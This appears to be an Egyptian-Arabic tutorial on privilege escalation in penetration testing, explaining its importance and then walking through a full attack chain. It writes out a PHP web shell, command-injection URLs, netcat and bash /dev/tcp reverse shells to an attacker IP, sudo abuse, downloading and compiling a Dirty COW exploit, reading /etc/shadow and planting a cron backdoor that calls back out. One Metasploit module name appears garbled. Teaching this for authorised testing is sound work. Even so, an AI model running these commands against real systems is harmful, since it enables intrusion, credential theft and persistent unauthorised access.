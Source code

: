 # **1. ليه Privilege Escalation مهم في هجمات العالم الحقيقي؟**

## **الشرح العميق:**
في هجمات العالم الحقيقي، Privilege Escalation (تصعيد الصلاحيات) هو المفتاح اللي بيحول هجوم بسيط لكارثة كبيرة. لما المهاجم يدخل نظام أو موقع كمستخدم عادي (low privilege)، غالبًا ما يكون محدود جدًا في اللي يقدر يعمله. لكن لو قدر يصعد صلاحياته – سواء أفقيًا (ياخد حساب مستخدم تاني) أو عموديًا (يبقى أدمن أو root) – بيقدر يتحكم في النظام كله، يسرق بيانات، يزرع برمجيات خبيثة، أو يدمر كل حاجة. في السيناريوهات الحقيقية زي اختراق الشركات أو البنوك، التصعيد ده بيكون الهدف الأساسي عشان يضمن أكبر ضرر أو ربح.

## **الأدوات والأوامر العملية:**
### 1. **فحص نقطة البداية:**
   - لو دخلت نظام كمستخدم عادي (مثل www-data من ثغرة ويب):
     - `id` (في لينكس) -> `uid=33(www-data)`.
     - `whoami` (في ويندوز) -> `webuser`.
   - الهدف: تبدأ تدور على طريقة تطلع من هنا لفوق.

### 2. **استغلال سوء إعدادات:**
   - لو لقيت أمر زي `sudo -l` يقولك إنك تقدر تشغل حاجة كـ root:
     - مثال: `(root) NOPASSWD: /bin/bash`.
     - شغل: `sudo /bin/bash` -> بقيت root.

### 3. **مثال واقعي (Web Shell):**
   - لو لقيت ثغرة File Upload في موقع:
     - ارفع ملف PHP: `<?php system($_GET['cmd']); ?>`.
     - افتح: `http://target.com/uploads/shell.php?cmd=whoami`.
     - لو رجعلك `www-data`، ابدأ رحلة التصعيد.

## **خلاصة بالعامية المصرية:**
"يعني التصعيد زي ما تكون داخل بيت كضيف، بس لو لقيت السلم السري وطلعت لأوضة صاحب البيت، بقيت أنت الكبير! في الهجمات الحقيقية، من غير التصعيد ده هتفضل تلعب في الصغير وماتعملش حاجة كبيرة."

---

# **2. تأثيره في سيناريوهات حقيقية**

## **الشرح العميق:**
في العالم الحقيقي، المهاجمين بيستخدموا Privilege Escalation عشان يحققوا أهداف كبيرة زي:
- **سرقة بيانات حساسة:** زي بيانات العملاء في شركة أو كروت الائتمان.
- **زرع Ransomware:** لو وصلت لـ root، تقدر تقفل النظام كله وتطلب فدية.
- **التجسس طويل الأمد:** بتخلّي المهاجم يفضل جوا النظام من غير ما حد يكتشفه.
- **هجمات متسلسلة:** يستخدم النظام المخترق كقاعدة لمهاجمة أنظمة تانية.

مثلاً، في هجمات زي WannaCry أو NotPetya، التصعيد كان جزء أساسي عشان البرمجية الخبيثة تنتشر وتدمر أنظمة كاملة بعد ما استغلت ثغرات للوصول لصلاحيات أعلى.

## **الأدوات والأوامر العملية:**
### 1. **استغلال ثغرة معروفة:**
   - لو لقيت نظام قديم (مثل Windows XP أو Linux Kernel 2.6):
     - `searchsploit windows xp sp3`.
     - نزل Exploit، شغله عشان تاخد System.
   - في لينكس: `uname -r` -> `2.6.32` -> `searchsploit linux kernel 2.6.32`.

### 2. **Metasploit للتصعيد:**
   - `msfconsole`.
   - `use exploit/windows/local/ms10_015_ki trap0d`.
   - `set SESSION <session_id>` (من جلسة سابقة).
   - `exploit` -> لو نجحت، بقيت System.

### 3. **في الويب (Command Injection):**
   - لو موقع فيه ثغرة زي: `http://target.com/ping?ip=127.0.0.1`:
     - `http://target.com/ping?ip=127.0.0.1; whoami`.
     - لو نجحت، حاول تاخد shell كامل:
       - `http://target.com/ping?ip=127.0.0.1; nc -e /bin/bash 192.168.1.100 4444`.

## **خلاصة بالعامية المصرية:**
"في الدنيا الحقيقية، التصعيد ده زي ما تكون لقيت كنز في لعبة، لو مسكته بقيت اللي بيحرك الكل! من غيره، المهاجم هيفضل واقف مكانه زي الجزمة، لكن لما يصعد، يبقى هو الباشا ويعمل اللي عايزه."

---

# **3. ليه الموضوع ده حاسم؟**
- **بدون تصعيد:** المهاجم بيفضل محصور في ركن صغير، يعني يسرق حاجة بسيطة ويطلع.
- **مع تصعيد:** بيبقى عنده القدرة يخرب بيوت، يسرق شركات، أو يسيطر على شبكات كاملة.
- **في الـ Pentesting:** لازم تثبت للعميل إن الثغرة بتاعته مش بس بتفتح الباب، لكن ممكن تدمرله حياته لو ما أصلحهاش.

## **خلاصة بالعامية المصرية:**
"التصعيد ده اللي بيفرق بين واحد بيلعب ع المصغر وواحد بيحرك العرباية الكبيرة! من غيره، المهاجم زي الكتكوت، لكن لما يصعد، يبقى الأسد بتاع الغابة."

---

# **خطوات عملية للاستغلال في Pentesting**

## **الخطوة 1: فحص الهدف**
- شغل Nmap:
  - `nmap -sV 192.168.1.10`.
- افترض النتيجة:
  - Port 80: Apache 2.4.29.
  - Port 22: OpenSSH 5.3.

## **الخطوة 2: إيجاد نقطة دخول**
- جرب ثغرة في الويب:
  - `http://192.168.1.10/ping?ip=127.0.0.1; id`.
  - لو رجعلك `www-data`، يبقى دخلت كمستخدم عادي.

## **الخطوة 3: محاولة تصعيد أفقي**
- لو لقيت قاعدة بيانات:
  - `http://192.168.1.10/user?id=1 UNION SELECT 1,username,password FROM users --`.
  - لو جابلك بيانات مستخدمين، جرب تدخل بحساب أدمن (تصعيد أفقي لو مش root).

## **الخطوة 4: تصعيد عمودي**
- من الثغرة اللي لقيتها:
  - `http://192.168.1.10/ping?ip=127.0.0.1; /bin/bash -i >& /dev/tcp/192.168.1.100/4444 0>&1`.
  - على جهازك: `nc -lvnp 4444` -> لو نجحت، هتاخد shell.
- في الـ Shell:
  - `id` -> `www-data`.
  - `sudo -l` -> لو لقيت `(root) NOPASSWD: /usr/bin/find`:
    - `sudo find / -exec /bin/bash \;` -> بقيت root.
- لو مفيش sudo:
  - `uname -r` -> `2.6.32`.
  - `searchsploit linux kernel 2.6.32` -> نزل exploit (زي Dirty COW):
    - `wget http://192.168.1.100/dirtycow.c -O /tmp/dc.c`.
    - `gcc /tmp/dc.c -o /tmp/dc`.
    - `./tmp/dc` -> `id` -> `uid=0(root)`.

## **الخطوة 5: تطبيق سيناريو واقعي**
- لو وصلت root:
  - استخرج بيانات: `cat /etc/shadow`.
  - زرع backdoor: `echo 'nc -e /bin/bash 192.168.1.100 9999' > /etc/cron.d/backdoor`.
  - وثّق كل حاجة في تقريرك للعميل.

## **خلاصة بالعامية المصرية:**
"الخطوات دي زي ما تكون بتلعب لعبة حرب: بدأت جندي صغير، لقيت سلاح، كبرت، وفي الآخر بقيت القائد بتاع المعركة! التصعيد هو اللي هيخليك تكسب الماتش."

---

# **الخلاصة النهائية:**
Privilege Escalation في العالم الحقيقي هو اللي بيحول هجوم عادي لكابوس كبير. بدون ما تصعد، هتفضل تلعب في الزاوية، لكن لما توصل للأعلى، بتبقى أنت اللي بتحرك اللعبة كلها. في الـ Pentesting، استخدم أدوات زي Nmap، Metasploit، وثغرات الويب عشان تثبت للعميل إنك مش بس بتفتح الباب، لكن ممكن تاخد البيت كله لو عايز!